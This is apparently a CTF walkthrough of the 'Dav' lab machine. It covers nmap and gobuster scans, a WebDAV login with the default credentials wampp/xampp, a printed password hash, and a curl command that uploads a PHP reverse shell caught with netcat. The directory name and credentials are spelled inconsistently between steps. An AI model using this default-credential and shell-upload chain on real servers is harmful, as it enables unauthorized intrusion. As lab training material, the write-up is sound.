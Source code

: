 # Dav

Boot2root machine for FIT and bsides guatemala CTF.  

# Tasks

Read user.txt and root.txt.  

# nmap

## `ip = 10.10.127.205`

## Command 
```sh
 nmap -sV -sC -A -v 10.10.127.205 | tee nmap.txt
```

## Results
```sh
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_ Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
106/tcp filtered pop3pw
```

# http_80

To Do List  

- run gobuster  
- surf the web  
- view source code  
- robots.txt  
- gobuster  

## gobuster

## Command 
```sh
 gobuster dir -u http://10.10.127.205 -w /usr/share/wordlists/dirb/common.txt
 ```

We get this directory known as `/weddav`  
Here i need a username and password.  
Did some research and got this default credentioals.  

User = `wampp`  
pass = `xampp`  
Entering the credentials i get a file `passwd.dav`file.  

`=wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91`

Cracked the hash but got nothing much.  
I searched for webdav vulnerability and got that we can upload files to it's server.  
I think if I can upload the shell and connect to it we can login into the system easily.  
I used a php reverse shell , changed the ip and uploaded it  
```sh
curl --user "wamp:xamp" http://10.10.127.205/webdev/ --upload-file reverseshell.php -v
```
Run nc cat on my machine then run the code.  
Got the shell and stablelized it.  

Now it's just a matter of looking for the user.txt  

# Privilage Escalation
For this i always first run  
- sudo -l
- cat /etc/crontab

## sudo -l
This is simple since the user can read any file with sudo without a password.  